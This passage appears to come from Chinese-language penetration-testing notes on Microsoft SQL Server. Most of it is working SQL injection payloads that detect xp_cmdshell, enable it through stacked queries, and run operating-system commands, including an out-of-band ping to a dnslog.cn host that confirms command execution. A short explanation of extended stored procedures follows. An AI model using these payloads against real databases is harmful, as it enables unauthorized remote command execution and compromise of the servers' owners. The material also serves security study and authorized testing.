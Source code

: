   ```
EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;
#关闭xp_cmdshell
EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',0;RECONFIGURE;


#SQL注入+xp_cmdshell利用

#查看是否禁用xp_cmdshell
id=0'union select 1,2,count(*) from master..sysobjects where xtype='X' and name='xp_cmdshell' --+ 
id=1'and 1=(select count(*) from master.sys.sysobjects where name='xp_cmdshell') --+

#开启xp_cmdshell
id=0';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE; --+

#执行命令
id=1';exec master.sys.xp_cmdshell 'ping -n 1 d3rymk.dnslog.cn' --+
```

![image-20240906193747809](./assets/image-20240906193747809.png)

------

#### 扩展存储过程

- 扩展存储过程以`xp`开头,主要使用外部程序语言编写的存储过程

- 如:`xp_cmdshell`直接利用其执行命令,`xp_subdirs`读取文件夹内容

- `sql server 2005` 后的版本默认关闭,需要开启后使用

- ```sql
  #开启xp_cmdshell
  EXEC sp_configure 'show advanced options',1;
  RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell',1;
  RECONFIGURE;
  